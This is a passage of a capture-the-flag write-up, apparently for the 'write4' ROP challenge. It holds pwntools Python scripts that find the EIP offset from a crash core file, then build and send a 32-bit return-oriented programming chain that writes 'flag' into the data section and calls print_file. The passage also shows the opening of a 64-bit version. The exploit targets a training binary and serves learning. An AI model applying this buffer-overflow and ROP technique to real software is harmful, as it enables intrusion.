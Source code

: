 ```python
# Wait for the process to crash
io.wait()

# Open up the corefile created after crash
core = io.corefile

# Print out the address of EIP at the time of crashing
eip_value = core.eip
eip_offset = cyclic_find(eip_value)
info('located EIP offset at {a}'.format(a=eip_offset))

##### CRAFTING PAYLOAD #####

payload = b""
payload += b'A' * eip_offset
payload += p32(pop_gadget)
payload += p32(datasection)
payload += p32(flagstr)
payload += p32(mov_gadget)
payload += p32(pop_gadget)
payload += p32(datasection + 0x4) # +4 so that we don't overwrite our "flag" string
payload += p32(txtstr)
payload += p32(mov_gadget)
payload += p32(print_file)
payload += p32(junkaddr)
payload += p32(datasection)

print(payload)

##### SEND PAYLOAD AND GET FLAG #####

io = process()
io.sendlineafter('>', payload)
io.recvuntil('Thank you!\n')

#Get our flag!
flag = io.recv()
success(flag)

##### END #####
```

&nbsp;

### The 64 bit python script

```python
from pwn import *

##### SETUP & RUN #####

#Define the executable
exe = './write4'

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# verbose logging so we can see what is being sent
context.log_level = 'info'

#delete corefiles after crash occurs
context.delete_corefiles = True

# run the elf
io = process()
```